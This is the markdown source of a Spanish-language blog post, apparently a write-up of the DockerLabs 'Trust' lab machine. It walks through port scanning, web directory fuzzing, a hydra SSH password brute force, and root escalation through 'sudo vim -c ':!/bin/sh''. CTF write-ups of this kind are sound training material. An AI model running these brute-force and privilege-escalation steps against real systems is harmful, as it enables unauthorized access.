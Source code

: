 ```yaml
---
layout: post
title: "Trust"
date: 2024-06-28 15:20:23
category: sample
vm: dockerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Trust </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/trust/host.png){:.margin}

**1\.** Escaneo los puertos y servicios en el host objetivo.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.17.0.2`

![img](/notas/public/img/dockerlabs/trust/nmap.png){:.margin}

**2\.** En la web corre la pagina Apache por defecto.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/trust/80.png){:.margin}

**3\.** Hago fuzzing de recursos en la web.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/trust/gobuster.png){:.margin}

**4\.** En este archivo php podemos pillar un posible usuario.

`http://172.17.0.2/secret.php`

![img](/notas/public/img/dockerlabs/trust/secret.png){:.margin}

**5\.** Haciendo fuerza bruta al ssh.

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/trust/hydra.png){:.margin}

**6\.** Accedo por ssh como mario.

`ssh mario@172.17.0.2`

![img](/notas/public/img/dockerlabs/trust/sshmario.png){:.margin}

**7\.** Revisando los permisos sudo, tengo este binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/trust/sudol.png){:.margin}

**8\.** Escalando privilegios.

_8.1- Busco en [gtfobins](https://gtfobins.github.io/gtfobins/vim/#sudo) para ver la forma de uso del binario_

`sudo vim -c ':!/bin/sh'`

_8.2- Ya somos root_

![img](/notas/public/img/dockerlabs/trust/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>